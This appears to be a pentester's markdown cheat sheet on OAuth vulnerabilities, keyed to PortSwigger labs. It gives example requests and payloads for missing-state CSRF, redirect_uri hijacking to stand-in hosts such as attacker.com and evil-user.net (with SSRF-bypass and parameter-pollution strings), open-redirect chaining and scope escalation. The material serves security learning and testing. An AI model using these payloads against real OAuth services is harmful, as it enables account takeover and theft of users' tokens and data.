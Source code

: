 # OAuth Authentication Vulnerabilities

## **Table of Contents**
1. [Improper Implementation of the Implicit Grant Type](#improper-implementation-of-the-implicit-grant-type)
2. [Exploiting Absense of State Parameter](#Exploiting-Absense-of-State-Parameter)
3. [OAuth Account Hijacking With SSRF and Parameter via `redirect_uri`](#oauth-account-hijacking-with-ssrf-and-parameter-pollution-via-redirect_uri)
4. [Stealing OAuth Access Tokens via an Open Redirect](#stealing-oauth-access-tokens-via-an-open-redirect)
5. [Stealing OAuth Access Tokens via a Proxy Page](#stealing-oauth-access-tokens-via-a-proxy-page)
6. [Exploiting `response_mode`](#exploiting-response_mode)
7. [Exploiting flawed scope validation in authorization code grant type in Oauth service provider server](#Exploiting-flawed-scope-validation-in-authorization-code-grant-type-in-Oauth-service-provider-server)
8. [Unverified User Registration](#unverified-user-registration)
9. [Unprotected Dynamic Client Registration via OpenID Connect](#unprotected-dynamic-client-registration-via-openid-connect)
10. [Allowing authorization requests by reference](#Allowing-authorization-requests-by-reference)

---
**Note:**

  1. In `Implicit grant type` browser always recieves a `token`.<br>
  2. In `authorization code grant type` browser recieves a `code`.<br>
  3. Always check `response_type` header to identify the grant type.
---

### Improper implementation of the implicit grant type
In the implicit flow, this POST request is exposed to attackers via their browser. As a result, this behavior can lead to a serious vulnerability if the client application doesn't properly check that the access token matches the other data in the request. In this case, an attacker can simply `change the parameters` sent to the server to impersonate any user. **For example:** When a token is sent to attacker browser, an attacker might change the `username`,`email` or other details targeting another user.

---

### Exploiting Absense of State Parameter

In Oauth mechanism, `state` parameter in authorization request work as a CSRF token. Absense of this parameter can be exploitable to CSRF attack.<br>
<br>

**Here is an example of authorization request without `state` parameter**
<br>
```
GET /authorization?client_id=12345&redirect_uri=https://client-app.com/callback&response_type=code&scope=openid%20profile HTTP/1.1
Host: oauth-authorization-server.com
```
**Now we can send the request with `code` to a victim.**
```
GET /oauth-login?code=epAPZZJJLQCCYm6sI7NSKgiq37kkBndfvXxsw1wfukJ
Host: client-app.net
```

---

### OAuth Account Hijacking With SSRF and Parameter Pollution via `redirect_uri`

Depending on the grant type, the `redirect_uri` parameter is used to send the authorization code to the specified domain in the `redirect_uri`. If an OAuth mechanism allows arbitrary domains to be specified in the `redirect_uri`, an attacker could exploit this flow to hijack the authorization code.

For example:  
```
redirect_uri=https://client-app.net
```
The code is sent to `client-app.net`.  
```
redirect_uri=https://attacker.com
```
The code is sent to `attacker.com`.<br>
<br>
***Note: If this process not work, try with `ssrf defense bypass` technique and `parameter pollution`.** <br>
<br>
**SSRF** : `redirect_uri=https://default-host.com &@foo.evil-user.net#@bar.evil-user.net/`<br>
**Parameter Pollution** : `client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net`
<br>
<br>Check this for more details >> [Flawed redirect_uri validation](https://portswigger.net/web-security/oauth#leaking-authorization-codes-and-access-tokens)

---

### Stealing OAuth access tokens via an open redirect

If `redirect_uri` is not accepting arbitrary domain, we may be able to use directory traversal tricks to supply any arbitrary path on the domain. Something like this:
```
redirect_uri=https://client-app.com/oauth/callback/../
```
Or,
```
redirect_uri=https://client-app.com/oauth/callback/../../example/path
```
This will be interpreted on the back-end as:
```
https://client-app.com/example/path
```
At this point, if we find any `open redirect` vulnerability on `/example/path`, we can chain this issue to sent request to an attacker-controlled domain where we can host any malicious script and steal the `code`.

Check this for more details : [Portswigger Lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)

---

### Stealing OAuth access tokens via a proxy page

More deatils: [Portswigger Lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)

---

### Exploiting response_mode

In some cases, changing `response_mode` can let you to bypass `redirect_uri` validation. You can change the value with `query`, `fragment`, `web_message`. Also if you notice that the `web_message` response mode is already in the request, this often allows a wider range of subdomains in the `redirect_uri`.
<br>
```
https://auth.example.com/authorize?
client_id=12345
&redirect_uri=https://client-app.net
&response_type=code
&response_mode=web_message
```

---

### Exploiting flawed scope validation in authorization code grant type in Oauth service provider server

**Note: For this we need our own malicious application**

In some scenario we can leak user information from Oauth authorization server by exploiting a misconfigured `scope` parameter during server-to-server token exchange.<br>
<br>
**Initial Authorization Request**
```
GET /authorize?client_id=12345
&redirect_uri=https://attacker.com/callback
&response_type=code
&scope=openid email
&state=xyz123
HTTP/1.1
Host: oauth-authorization-server.com
```
Now, the attacker exchanges the authorization code for an access token but modifies the `scope` parameter to include `profile`.<br>
<br>
**Authorization Code Exchange**
```
POST /token HTTP/1.1
Host: oauth-authorization-server.com
Content-Type: application/x-www-form-urlencoded

client_id=12345
&client_secret=SECRET
&redirect_uri=https://attacker.com/callback
&grant_type=authorization_code
&code=abc123xyz
&scope=openid email profile
```
In vulnerable case, the server does not reject the request and issues an access token with elevated privileges. Now the attacker has an access token with unauthorized profile access and can retrieve sensitive user data via API calls.<br>
<br>
**API call**
```
GET /userinfo HTTP/1.1
Host: api.oauth-authorization-server.com
Authorization: Bearer z0y9x8w7v6u5
```
***Note: `z0y9x8w7v6u5` is the access token.*** <br>
<br>We can do this in implicit grant type also by stealing the access token.<br>
<br>
More details: [Portswigger](https://portswigger.net/web-security/oauth#flawed-scope-validation)

---

### Unverified user registration

Some websites that provide an OAuth service allow users to register an account without verifying all of their details, including their email address in some cases `(In this case email verification with OTP don't work)`. An attacker can exploit this by registering an account with the OAuth provider using the same details as a target user, such as a known email address. Client applications may then allow the attacker to sign in as the victim via this fraudulent account with the OAuth provider.

---

### Unprotected dynamic client registration via OpenID Connect

For more details: [Portswigger](https://portswigger.net/web-security/oauth/openid#unprotected-dynamic-client-registration)

---

### Allowing authorization requests by reference

For more deatils: [Portswigger](https://portswigger.net/web-security/oauth/openid#allowing-authorization-requests-by-reference)

---
